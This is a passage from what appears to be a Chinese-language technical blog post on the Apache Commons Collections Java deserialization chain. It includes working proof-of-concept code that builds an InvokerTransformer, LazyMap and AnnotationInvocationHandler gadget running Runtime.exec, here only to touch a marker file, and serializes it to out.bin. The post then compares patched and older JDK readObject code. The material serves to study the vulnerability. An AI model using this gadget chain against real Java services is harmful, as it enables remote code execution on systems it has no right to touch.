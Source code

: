 ```java
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[]{}}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[]{}}),
                new InvokerTransformer("exec", new Class[]{String[].class}, new Object[]{new String[]{"/bin/touch", "/dev/shm/rmb122_pwned_1"}}),
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Constructor constructor = Class.forName("org.apache.commons.collections.map.LazyMap").getDeclaredConstructor(Map.class, Transformer.class);
        constructor.setAccessible(true);
        HashMap hashMap = new HashMap<String, String>();
        Object lazyMap = constructor.newInstance(hashMap, chainedTransformer);

        constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        // 因为构造方法不是 public, 只能通过反射构造出来
        constructor.setAccessible(true);
        InvocationHandler invo = (InvocationHandler) constructor.newInstance(Deprecated.class, lazyMap);
        Object proxy = Proxy.newProxyInstance(invo.getClass().getClassLoader(), new Class[]{Map.class}, invo);

        constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object obj = constructor.newInstance(Deprecated.class, proxy);

        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("out.bin"));
        oos.writeObject(obj);
    }
}
```

接下来问题是 java 是如何修复的呢? 一开始不知道已经修复, 复现出来导致还以为自己写错了 233
看到 
```java
public static boolean isApplicableJavaVersion() {
    return JavaVersion.isAnnInvHUniversalMethodImpl();
}
```
才发现有可能是 java 内部类动过的原因.

拿最新版的 `readObject` 与上面 u66 版本的对比一下
```java
private void readObject(ObjectInputStream s) throws IOException, ClassNotFoundException {
    GetField fields = s.readFields();
    Class<? extends Annotation> t = (Class)fields.get("type", (Object)null);
    Map<String, Object> streamVals = (Map)fields.get("memberValues", (Object)null);
    AnnotationType annotationType = null;

    try {
        annotationType = AnnotationType.getInstance(t);
    } catch (IllegalArgumentException var13) {
        throw new InvalidObjectException("Non-annotation type in annotation serial stream");
    }

    Map<String, Class<?>> memberTypes = annotationType.memberTypes();
    Map<String, Object> mv = new LinkedHashMap();

    String name;
    Object value;
```